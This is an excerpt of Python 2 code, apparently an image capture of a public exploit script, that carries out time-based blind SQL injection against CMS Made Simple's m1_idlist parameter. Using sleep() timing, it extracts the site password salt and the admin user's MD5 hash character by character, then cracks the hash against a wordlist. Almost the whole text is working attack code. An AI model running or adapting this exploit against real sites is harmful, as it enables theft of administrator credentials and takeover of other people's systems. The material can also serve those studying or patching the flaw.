 ```python
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()

def beautify_print_try(value):
    global output
    print "\033c"
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print "\033c"
    cprint(output,'green', attrs=['bold'])

def dump_salt():
    global flag
    global salt
    global output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_salt)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag
    global password
    global output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
            payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
```